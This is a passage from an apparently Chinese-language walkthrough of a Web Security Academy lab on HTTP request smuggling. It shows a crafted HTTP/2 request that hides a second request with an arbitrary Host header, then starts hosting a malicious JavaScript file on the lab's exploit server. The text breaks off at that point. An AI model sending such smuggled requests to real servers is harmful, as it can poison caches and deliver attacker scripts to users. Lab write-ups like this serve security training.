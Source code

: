 ![img](assets/1706773318-e5dd6b60f82568928f76fe6e360b1546.png)

Step 4：随后尝试构造下面的请求来隐藏对任意的 host 的/resources 请求

```c
POST / HTTP/2
Host: 0aed00cf039321e185db1c3f00a80002.web-security-academy.net
Cookie: session=LPq3scqI6nFu4qD2LbowPurZhkiVCXtY
Content-Length: 0
GET /resources HTTP/1.1
Host: www.baidu.com
Content-Length: 6
x=1
```

![img](assets/1706773318-117010e96092d49308640156bee03f4f.png)

Step 5：随后我们使用靶场提供的恶意服务器主机托管一个恶意 JS 文件

![img](assets/1706773318-facf71487510c6bdd7374a2e508b29e9.png)
